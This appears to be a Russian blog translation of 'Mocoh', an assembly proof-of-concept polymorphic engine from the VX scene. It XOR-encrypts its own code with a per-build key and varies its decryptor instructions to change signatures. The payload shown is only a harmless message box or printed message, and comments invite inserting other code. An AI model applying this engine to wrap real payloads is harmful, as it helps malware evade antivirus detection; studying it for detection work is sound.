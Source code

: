 ```yaml
---
layout: post
title: Полиморфный движок Mocoh
category: [translations]
tag: [windows, malware]
---
```

<pre>
target_os = 0  ; 0 = x64 PE, 1 = x64 ELF
;                            .__
;  _____   ____   ____  ____ |  |__
; /     \ /  _ \_/ ___\/  _ \|  |  \  Hybrid Poly Engine v1.1
;|  Y Y  (  <_> )  \__(  <_> )   Y  \
;|__|_|  /\____/ \___  >____/|___|  /
;      \/            \/           \/
;
; [+] PoC простого гибридного полиморфного движка (код и процесс дешифрования)
; [+] Подходит для Windows (PE64) и Linux (ELF64)
; [+] 1 байтный рандомный XOR ключ
; [+] Движок может менять ключ и некоторые инструкции (код и порядок)
; [+] Техника простая и не новая... Только для образовательных целей
;
; Автор: SWaNk 2020 [<o>] Снова в деле, VX навсегда!
; Спасибо TMZ за linux реализацию!
;
; https://vx-underground.org/
; https://pt.wikipedia.org/wiki/Moc? (Kerodon rupestris)


```
if target_os > 0
    display "Выбран x64 ELF",13,10
    format ELF64 executable 3
else
    display "Выбран x64 PE",13,10
    format PE64 GUI 4.0
    include "%include%/win64a.inc"
end if

entry start
```

; Это полиморфный макрос, для шифрования (однобайтный xor).
; Это простой XOR байтов от 0x00 до 0xFF, во время компиляции.
; Это просто пример того, как это может выглядеть ... Используйте свое воображение, если хотите улучшить

macro encrypt dstart,dsize {
    local ..char

    key = %t and 0xff

    repeat dsize
        load ..char from dstart+%-1
        ..char = ..char xor key
        store ..char at dstart+%-1
    end repeat
}

; Идея заключается в том, чтобы создать дидактический макрос. Он будет делить один байт на две части (от 0x00 до 0xff)
; другими словами: 0xff / 2 = 0x7f
;
; Если длина псевдорандомного ключа больше 0x7f байт, то в начале edx получит значение real_start,  
; а ecx - code_size. Если ключ меньше чем 0x7f, порядок меняется
;
; Если длина псевдорандомного ключа больше 0x7f байт, значение edx будет увеличено инструкцией "inc edx",
; - иначе "add edx, 1"

macro simplePoly {
      if key > 0x7f             ; если длина ключа меньше 0x7f байт, то в начале идет real_start, потом code_size (порядок меняется)
         mov edx,real_start
         mov ecx,code_size
      else
         mov ecx,code_size
         mov edx,real_start
      end if

 @@:  xor byte [edx],key

      if key > 0x7f             ; если длина ключа меньше 0x7f байт, мы будем использовать инструкцию "inc edx", иначе - "add edx, 1" (обе инструкции увеличивают edx на 1) 
         inc edx
      else
         add edx,1
      end if

      loop @B
}

; этот макрос генерирует инструкции, начиная с точки входа

;       mov edx,mocoh.401010       | Порядок этих инструкций
;       mov ecx,1C                 | может меняться

;       xor byte ptr ds:[edx],F4   | Ключ может поменяться (в этом случае это F4)
;       inc edx                    | Эта инструкция может измениться на "add edx, 1"
;       loop mocoh.40100A

;============================================================
if target_os > 0
segment readable executable writeable
else
section '.text' code readable executable writable
end if
;============================================================
start:

simplePoly

if target_os > 0
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Добавьте сюда свой код шифрования под линукс
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
real_start:

    lea     rsi, [msg]
    mov     rdx, msgLen
    mov rdi, 1
    mov rax, 1
    syscall

display "Шифруем это дерьмо... "
    
    code_size = $ - real_start
    encrypt real_start, code_size
    display "done",13,10
   
    mov rax, 60
    xor rdi, rdi
    syscall

else
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Добавьте сюда свой код шифрования под винду
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
real_start:

    mov rdx, rsp
    and rdx, 0fh
    and rsp, 0fffffffffffffff0h     ; убедитесь, что стек выравнен на 16 байт 
    invoke MessageBox, 0, msg, title, 0
    invoke ExitProcess, 0

; конец кода шифрования

    display "Шифруем это дерьмо... "
    code_size = $ - real_start
    encrypt real_start,code_size
    display "done",13,10
end if

if target_os > 0

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
segment readable
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
msg db "скомпилируйте 2 раза и сравните хэши и инструкции по расшифровке!", 0xa, 0
msgLen = $ - msg

else

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
section '.data' data readable writeable
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
    title db "SWaNk 2020",0
    msg   db "скомпилируйте 2 раза и сравните хэши и инструкции по расшифровке!",0

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
section '.idata' import data readable writeable
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
        library kernel32,"kernel32.dll",user32,"user32.dll"
        include "%include%/api/kernel32.inc"
        include "%include%/api/user32.inc"

end if

</pre>